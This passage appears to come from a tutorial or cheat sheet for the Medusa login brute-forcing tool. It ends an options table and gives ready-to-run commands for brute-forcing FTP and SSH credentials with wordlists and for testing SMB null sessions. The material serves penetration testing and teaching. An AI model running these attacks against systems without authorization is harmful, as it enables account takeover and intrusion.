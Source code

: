 | `-O`   | Output file                                                                            |
| `-vV`  | Verbose output                                                                         |
| `-x`   | Resume paused session                                                                  |
| `-r`   | Retry count for timeout connections                                                    |

---

# 🧪 Medusa Usage Examples

---

### ✅ 1. Brute Force FTP Login

```bash
medusa -h 192.168.1.10 -u admin -P /usr/share/wordlists/rockyou.txt -M ftp
```

📝 Explanation:

* Tries `admin:<passwords>` on FTP service
* Target = `192.168.1.10`
* Module = `ftp`

---

### ✅ 2. SSH Brute Force Using Username & Password Files

```bash
medusa -H ips.txt -U users.txt -P passwords.txt -M ssh -t 4 -vV
```

📝 Explanation:

* Target multiple hosts from `ips.txt`
* Use usernames from `users.txt`
* Use passwords from `passwords.txt`
* Attack SSH (`-M ssh`)
* 4 threads per host

---

### ✅ 3. SMB Null Session

```bash
medusa -h 192.168.1.5 -u "" -p "" -M smbnt -e n
```

📝 Explanation:

* Attempts null login to SMB
* `-e n` enables null password testing

---
